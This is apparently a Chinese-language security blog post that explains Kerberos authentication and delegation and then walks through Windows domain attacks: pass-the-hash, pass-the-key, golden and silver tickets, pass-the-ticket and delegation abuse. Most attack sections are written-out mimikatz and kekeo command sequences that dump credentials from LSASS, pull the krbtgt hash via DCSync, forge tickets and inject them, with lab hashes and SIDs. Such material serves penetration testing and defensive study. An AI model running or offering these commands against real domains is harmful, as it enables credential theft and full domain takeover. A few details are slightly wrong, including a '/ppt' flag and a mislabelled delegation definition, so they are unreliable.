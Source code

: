 ```yaml
---
layout: post
title: Kerberos协议
tags: Protocol,windows
---
```


# Kerberos协议

## kerberos 认证过程

### 角色

+ Client：访问服务的主机
+ Server：提供服务的主机
+ KDC（Key Distribution Center）：密钥分发中心，包含 AS（Authentication Service） 和 TGS（Ticket Granting Service）

### 过程

+ AS_REQ：Client 向 KDC 发送 ASREQ，请求凭据是 Client hash 加密的时间戳
+ AS_REP：KDC 使用 Client hash 进行解密，如果结果正确就返回 krbtgt hash 加密的 TGT 票据，TGT 票据里包含 PAC，PAC 包含 Client 的sid、Client 所在的组
+ TGS_REQ：Client 向 KDC 发送 TGT 票据，请求特定服务
+ TGS_RSP：KDC 使用 krbtgt hash 进行解密，如果结果正确，就返回用服务 hash 加密的 TGS 票据
+ AP_REQ：Client 使用 TGS 票据请求服务
+ AP_REP：服务用自己的 hash 解密 TGS 票据，如果解密正确，就发送 PAC 给 KDC，询问 Client 的访问权限，域控解密 PAC，获取 Client 的 sid，以及所在的组再根据服务的 ACL，判断 Client 的权限

## 委派

主机 A 使用主机 B 的某服务，此时需要通过主机 B 的某服务请求主机 C 的 某项专属 A 的服务，B 就需要代表 A 去访问 C 的该服务。

### 非约束性委派

被配置了约束性委派的主机B，会接受任何用户的委派去请求其他服务，原理是 A 将 TGT 发送到 B 中并缓存到 LSASS，B 就可以模拟用户去访问服务。

### 约束委派

约束委派将限制指定服务器可以代表用户执行的服务，原理是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务（需要域管理员的权限）。

### 基于资源的约束委派

约束委派需要域管理员权限，为了使用户资源更加独立，微软引进了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。



## 认证过程引发的安全问题

### PTH/PTK

PTH，即 pass the hash。在访问主机 RDP 服务时，进行认证的过程中，唯一用到的与 Client 密码相关的是 AS_REQ 中使用的 hash，因此没有明文密码也是可以认证的。如果 hash 的 ntlm hash，加密方式为 rc4，这种就属于 pth，如果 hash 是 aes key，就算是 pass the key。

#### mimikatz操作

##### PTH

```
在目标机器中抓取密码 hash：
privilege::debug
sekurlsa::logonpasswords

在本机 pass the hash：
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7
```
##### PTK
```
在目标机器中抓取 key：
privilege::debug
mimikatz "privilege::debug" "sekurlsa::ekeys"

在本机 pass the key：
mimikatz "privilege::debug" "sekurlsa::pth /user:mary /domain:hack.test /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288" 
```



### 黄金票据

AS_REP 中的 TGT 票据是使用 krbtgt 的 hash 进行加密的，如果拥有 krbtgt 的hash，就可以给自己签发任意用户的 TGT 票据，这个票据被称为黄金票据。

#### mimikatz

```
在域控内导出 kribtgt 的 hash：
privilege::Debug
lsadump::dcsync /domain:hack.test /user:krbtgt

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

生成黄金票据：
kerberos::golden /user:Administrator /domain:hack.test /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi

在本机测试：
kerberos::purge // 清空已有票据
kerberos::ptt 1.kirbi	//导入票据
lsadump::dcsync /domain:test.com /user:krbtgt	// 导出 krbtgt 账号密码，作用是测试票据是否导入成功
```



### PTT

ptt，即 pass the ticket，Kerberos认证过程除了第一步AS_REQ是使用时间戳加密用户hash验证之外，其他验证都是通过票据，如果能拿到票据，就可以使用票据进行下个阶段的验证。

#### mimikatz

```
在域控中导出所有票据：
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"	

在本机导入票据：
kerberos::purge	//清除票据
mimikatz.exe "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"	//将票据注入到内存
```



### 白银票据

TGS_REP 中返回的 TGS 票据是使用服务的 hash 加密的，如果已经拥有服务的 hash，就可以给任意用户签发票据，访问特定服务，这就是白银票据。伪造的白银票据并没有与 KDC 通讯，所以票据里并没有带有有效 KDC 签名的 PAC，故如果目标主机配置为验证 KDC PAC签名，则白银票据失效。

#### mimikatz

```
域管账号登录域控，抓取密码hash：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

导入白银票据：
kerberos::golden /domain:hack.test /sid:S-1-5-21-4188752632-3746001697-3968431413 /target:dc.hack.test /rc4:6f949c52336e143ff8a2f5957416a73a /service:cifs /user:ceshi /ptt

导入命令详解：
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：域sid号
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```



### 非约束委派攻击

拿下配置非约束委派的服务器后，诱导域管访问，此时域管会将自己的 TGT 票据发送给该服务器并缓存到 Lsass 中，导出票据即可使用 PTT 接管域账号



### 约束委派攻击

拿下约束委派用户的账号密码后，可以向域控发送 TGT 请求，得到特定服务可转发的 TGS 票据

#### kekeo+mimikatz

```
已获取约束委派用户账号密码的前提下：

使用 kekeo 向域控发起 TGT 请求:
tgt::ask /user:test /domain:hack.test /password:Asdf1234 /ticket:test.kirbi

利用得到的 TGT 票据去 TGS 申请 ST 票据：
tgs::s4u /tgt:TGT_test@HACK.TEST_krbtgt~hack.test@hack.test.kirbi /user:Administrator@hack.test /service:cifs/DC.hack.test

mimikatz导入票据：
kerberos::ptt TGS_Administrator@hack.test@HACK.TEST_cifs~DC.hack.test@HACK.TEST.kirbi
```







